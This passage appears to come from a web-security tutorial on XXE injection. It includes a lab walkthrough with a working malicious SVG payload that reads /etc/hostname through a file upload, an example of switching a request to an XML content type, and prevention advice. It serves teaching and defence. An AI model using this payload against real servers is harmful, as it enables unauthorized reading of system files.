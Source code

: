```
For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

### Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

**Solution**

1. Create a local SVG image with the following content:
    ```<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>```
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the */etc/hostname* file in your image. Use the "Submit solution" button to submit the value of the server hostname.

## XXE attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

## How to prevent XXE vulnerabilities

Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. This can usually be done via configuration options or by programmatically overriding default behavior. Consult the documentation for your XML parsing library or API for details about how to disable unnecessary capabilities.